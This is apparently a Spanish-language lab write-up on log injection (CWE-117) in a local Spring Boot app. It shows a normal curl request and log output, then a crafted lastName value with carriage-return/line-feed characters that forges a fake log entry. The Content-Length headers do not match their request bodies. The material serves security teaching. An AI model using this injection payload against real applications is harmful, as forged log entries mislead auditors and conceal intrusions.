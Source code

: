 Solicitud:
```shell
curl --path-as-is -i -s -k -v -X $'POST' \
	-H $'Host: localhost:8080' \
	-H $'User-Agent: CURL' \
	-H $'Connection: close' \
	-H $'Content-Type: application/json' \
	-H $'Content-Length: 205' \
    --data-binary $'{\"name\":\"Jack\",\"lastName\":\"Daniels\"}' \
    $'http://localhost:8080/api/test'
```

Log
```text
2024-08-19T09:01:15.621-06:00  INFO 2006358 --- [cwe117] [           main] o.s.b.w.embedded.tomcat.TomcatWebServer  : Tomcat started on port 8080 (http) with context path '/'
2024-08-19T09:01:15.629-06:00  INFO 2006358 --- [cwe117] [           main] c.develrox.lab.cwe117.Cwe117Application  : Started Cwe117Application in 2.566 seconds (process running for 3.737)
2024-08-19T09:09:02.656-06:00  INFO 2006358 --- [cwe117] [nio-8080-exec-1] o.a.c.c.C.[Tomcat].[localhost].[/]       : Initializing Spring DispatcherServlet 'dispatcherServlet'
2024-08-19T09:09:02.656-06:00  INFO 2006358 --- [cwe117] [nio-8080-exec-1] o.s.web.servlet.DispatcherServlet        : Initializing Servlet 'dispatcherServlet'
2024-08-19T09:09:02.657-06:00  INFO 2006358 --- [cwe117] [nio-8080-exec-1] o.s.web.servlet.DispatcherServlet        : Completed initialization in 1 ms
2024-08-19T09:09:02.867-06:00  INFO 2006358 --- [cwe117] [nio-8080-exec-1] com.develrox.lab.cwe117.TestController   : REST request to save UserInputDTO UserInputDTO(name=Jack, lastName=Daniels)
```

## Patrón de Ataque
Como se observó en el ejemplo previo cuando el servidor atiende una solicitud al endpoint "/api/test" se añade una nueva línea en el log con los datos ingresados por el usuario. Esta entrada de datos puede ser utilizada de forma maliciosa haciendo uso de los caracteres \r\n (Retorno de Carro, Salto de Línea), de tal forma que permitan la manipulación del Log.

Este ataque busca añadir una nueva línea al log con información falsa y requiere como precondición el conocimiento sobre la estructura del Log.

Similar a cualquier ataque de inyección, se utilizará un punto de entrada para inyectar la carga maliciosa. en este caso se utilizará la propiedad _lastName_ la cual es una cadena de texto de tipo _string_ con la finalidad de terminar la linea del log y crear una nueva línea haciendo uso de los caracteres especiales \r\n:

```text
Daniels)\r\n2024-08-19T09:09:02.867-06:00  INFO 9999999 --- [xxxxxx] [xxxxxxxx] com.develrox.lab.cwe117.TestController   : Request to Save UserInputDTO(name=Test, lastName=Test
```


Solicitud:
```shell
curl --path-as-is -i -s -k -v -X $'POST' \
	-H $'Host: localhost:8080' \
	-H $'User-Agent: CURL' \
	-H $'Connection: close' \
	-H $'Content-Type: application/json' \
	-H $'Content-Length: 36' \
    --data-binary $'{\"name\":\"Jack\",\"lastName\":\"Daniels)\\r\\n2024-08-19T09:09:02.867-06:00  INFO 9999999 --- [xxxxxx] [xxxxxxxx] com.develrox.lab.cwe117.TestController   : Request to Save UserInputDTO(name=Test, lastName=Test\"}' \
    $'http://localhost:8080/api/test'
```

